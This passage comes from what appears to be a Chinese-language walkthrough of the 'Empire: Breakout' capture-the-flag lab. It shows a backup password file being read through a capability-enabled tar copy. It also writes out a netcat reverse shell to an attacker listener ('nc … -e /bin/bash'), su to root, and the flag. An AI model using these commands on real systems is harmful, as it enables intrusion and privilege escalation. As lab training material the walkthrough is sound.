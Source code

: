     破解了很久没爆出来
    
5. 我们接着寻找敏感文件
    - 在 `/var/backups` 下存在 `.old_pass.bak` ,我们使用上面步骤查看文件内容
        
        ```python
        [cyber@breakout ~]$ ./tar -cvf old_pass.tar /var/backups/.old_pass.bak
        ./tar: Removing leading `/' from member names
        /var/backups/.old_pass.bak
        [cyber@breakout ~]$ ./tar -xvf old_pass.tar
        var/backups/.old_pass.bak
        [cyber@breakout ~]$ cat var/backups/.old_pass.bak
        Ts&4&YurgtRX(=~h
        ```
        
        得到一串明文`Ts&4&YurgtRX(=~h` ，可能是密码
        
6. 我们可以尝试一下`root`账号使用上面得到的明文登录
    - 在网页上的命令行是不行，我们进行反弹`shell` ，同时`kali`开启监听
        
        ```python
        # kali 监听
        nc -lvp 1234            
        listening on [any] 1234 ...
        
        # 网页命令行反弹shell
        nc 192.168.75.151 1234 -e /bin/bash
        ```
        
    - 获得`shell`之后直接`su root`
        
        ```python
        nc -lvp 1234            
        我们可以尝192.168.75.183: inverse host lookup failed: Unknown host
        connect to [192.168.75.151] from (UNKNOWN) [192.168.75.183] 41962
        
        id
        uid=1000(cyber) gid=1000(cyber) groups=1000(cyber),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
        su root
        Ts&4&YurgtRX(=~h
        id
        uid=0(root) gid=0(root) groups=0(root)
        ```
        
        获得权限！！！
        
7. 读取`flag`文件
    
    ```python
    # cat rOOt.txt
    3mp!r3{You_Manage_To_BreakOut_From_My_System_Congratulation}
    
    Author: Icex64 & Empire Cybersecurity
    ```